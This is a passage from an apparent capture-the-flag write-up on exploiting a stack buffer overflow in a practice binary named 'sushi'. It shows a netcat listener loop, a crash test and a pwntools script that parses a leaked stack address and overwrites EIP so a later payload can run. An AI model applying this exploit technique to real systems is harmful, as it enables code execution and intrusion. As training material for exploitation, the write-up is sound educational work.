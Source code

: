 It even points directly to our input, so in order to start getting code executing we just need to parse this address and deliver it into the EIP location from there the OS will jump right into our buffer and begin executing some delicious shellcode.

Before we go too much further, let's get an environment setup which emulates the CTF environment. We can easily bind our sushi to a port using netcat. We can even wrap it with a while loop so it restarts after we crash it.

```
root@mankrik:~/bsides# while [ 1 ]; do nc -lvp 4000 -e ./sushi; done  
listening on [any] 4000 ...  
```

Then use netcat to test:

```
root@mankrik:~/bsides# nc localhost 4000   
Deposit money for sushi here: 0x7fff85649a20  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Sorry, $0.65 is not enough.  
root@mankrik:~/bsides#   
```

Which results in this neatness.

```
root@mankrik:~/bsides# while [ 1 ]; do nc -lvp 4000 -e ./sushi; done  
listening on [any] 4000 ...  
connect to [127.0.0.1] from localhost [127.0.0.1] 51068  
Segmentation fault  
listening on [any] 4000 ...  
```

OK so we have a working sushi server, knowledge about how to properly crash sushi and how to control EIP, we even know how to get a valid stack address and where to put that stack address in our payload in order to execute code.

In order to deliver all that I'm going to use pwntools / binjitsu which is a python framework used to make writing CTF exploits simpler.

Firstly lets build a script that just connects and parses the stack location and prepares that address for injection into our payload then sends the payload to see what happens...

```
#!/usr/bin/python  
from pwn import *  
buf = "A" * 72  
# open the tcp connection and receive the banner  
conn = remote('localhost', 4000)  
sushihello = conn.recvline()  
# parse the stack address from the sushi banner  
line = sushihello.split()  
addr = line[5].replace("0x","")  
# Reverse the byte order of the address  
little = "".join(reversed([addr[i:i+2] for i in range(0, len(addr), 2)]))  
# convert the addresses to binary  
data = little.decode('hex')  
# build payload  
attackstring = buf + data  
# display some debug information for ourselves  
print sushihello  
print "Address: 0x" + addr  
print "Length of attack: " + str(len(attackstring))  
# send the payload  
conn.send(attackstring)  
conn.close()  
```
